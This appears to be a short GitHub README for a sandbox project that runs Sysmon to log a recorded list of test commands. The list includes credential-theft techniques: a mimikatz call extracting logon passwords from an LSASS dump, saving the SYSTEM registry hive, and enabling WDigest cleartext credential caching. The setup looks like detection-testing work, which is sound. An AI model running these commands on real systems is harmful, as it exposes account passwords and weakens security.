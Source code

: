 # sandbox_test

- sand.py: code
- Sysmon64.exe: sysmon
- sysmonconfig.xml: config

#### note: put Sysmon64.exe and sysmonconfig.xml in C:\Users\\{Username}\Documents

##### payload record:
##### SCHTASKS (powershell only)
```
$time = [DateTime]::Now.AddMinutes(30)

$hourMinute = $time.ToString("HH:mm")

SCHTASKS /Create /SC ONCE /TN "Open Notepad" /TR "notepad.exe" /ST $hourMinute
```



mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit

copy %USERPROFILE%\\Desktop\\SandboxFiles\\sysmonconfig.xml .

whoami

xcopy %USERPROFILE%\\Desktop\\SandboxFiles .  /H  /Y

reg save HKLM\SYSTEM c:\system.save

reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
